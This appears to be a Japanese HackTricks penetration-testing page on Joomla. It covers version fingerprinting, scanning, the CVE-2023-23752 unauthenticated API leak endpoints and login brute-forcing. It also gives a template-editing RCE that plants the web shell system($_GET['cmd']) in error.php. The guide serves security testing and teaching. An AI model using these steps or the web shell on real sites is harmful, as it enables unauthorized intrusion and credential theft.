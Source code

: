 # Joomla

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Joomlaの統計

Joomlaは、Joomlaのインストールで使用されているJoomla、PHP、データベースのバージョンやサーバーのオペレーティングシステムの内訳など、いくつかの匿名の[使用統計](https://developer.joomla.org/about/stats.html)を収集します。このデータは、彼らの公開[API](https://developer.joomla.org/about/stats/api.html)を介してクエリできます。
```bash
curl -s https://developer.joomla.org/stats/cms_version | python3 -m json.tool

{
"data": {
"cms_version": {
"3.0": 0,
"3.1": 0,
"3.10": 6.33,
"3.2": 0.01,
"3.3": 0.02,
"3.4": 0.05,
"3.5": 12.24,
"3.6": 22.85,
"3.7": 7.99,
"3.8": 17.72,
"3.9": 27.24,
"4.0": 3.21,
"4.1": 1.53,
"4.2": 0.82,
"4.3": 0,
"5.0": 0
},
"total": 2951032
}
}
```
## Enumeration

### Discovery/Footprinting

* **メタ**を確認する
```bash
curl https://www.joomla.org/ | grep Joomla | grep generator

<meta name="generator" content="Joomla! - Open Source Content Management" />
```
* robots.txt
```
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
[...]
```
* README.txt
```
1- What is this?
* This is a Joomla! installation/upgrade package to version 3.x
* Joomla! Official site: https://www.joomla.org
* Joomla! 3.9 version history - https://docs.joomla.org/Special:MyLanguage/Joomla_3.9_version_history
* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/staging
```
### バージョン

* **/administrator/manifests/files/joomla.xml** でバージョンを確認できます。
* **/language/en-GB/en-GB.xml** でJoomlaのバージョンを取得できます。
* **plugins/system/cache/cache.xml** でおおよそのバージョンを確認できます。

### 自動
```bash
droopescan scan joomla --url http://joomla-site.local/
```
In[ **80,443 - Pentesting Web MethodologyはCMSスキャナーに関するセクションです**](./#cms-scanners)で、Joomlaをスキャンできます。

### API 認証なしの情報漏洩:

バージョン4.0.0から4.2.7は、認証なしの情報漏洩（CVE-2023-23752）に対して脆弱で、クレデンシャルやその他の情報をダンプします。

* ユーザー: `http://<host>/api/v1/users?public=true`
* 設定ファイル: `http://<host>/api/index.php/v1/config/application?public=true`

**MSFモジュール**: `scanner/http/joomla_api_improper_access_checks` またはrubyスクリプト: [51334](https://www.exploit-db.com/exploits/51334)

### ブルートフォース

この[スクリプト](https://github.com/ajnik/joomla-bruteforce)を使用して、ログインのブルートフォースを試みることができます。
```shell-session
sudo python3 joomla-brute.py -u http://joomla-site.local/ -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin

admin:admin
```
## RCE

もし**管理者の資格情報**を取得できたら、**PHPコードのスニペット**を追加することで**RCEを実行**できます。これを**テンプレートをカスタマイズ**することで行います。

1. `Configuration`の下にある**`Templates`**を**クリック**して、テンプレートメニューを表示します。
2. **テンプレート**名を**クリック**します。`Template`列の下にある**`protostar`**を選択しましょう。これで**`Templates: Customise`**ページに移動します。
3. 最後に、ページをクリックして**ページソース**を表示できます。**`error.php`**ページを選びましょう。以下のように**コード実行を得るためのPHPワンライナー**を追加します：
1. **`system($_GET['cmd']);`**
4. **保存して閉じる**
5. `curl -s http://joomla-site.local/templates/protostar/error.php?cmd=id`

## From XSS to RCE

* [**JoomSploit**](https://github.com/nowak0x01/JoomSploit): Joomlaの脆弱性を利用するスクリプトで、**XSSをRCEまたはその他の重大な脆弱性に昇格**させます。詳細は[**この投稿**](https://nowak0x01.github.io/papers/76bc0832a8f682a7e0ed921627f85d1d.html)を確認してください。**Joomlaバージョン5.X.X、4.X.X、3.X.Xをサポートし、以下を可能にします：**
* _**特権昇格：**_ Joomlaにユーザーを作成します。
* _**(RCE) ビルトインテンプレートの編集：**_ Joomlaのビルトインテンプレートを編集します。
* _**(カスタム) カスタムエクスプロイト：**_ サードパーティのJoomlaプラグイン用のカスタムエクスプロイト。

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
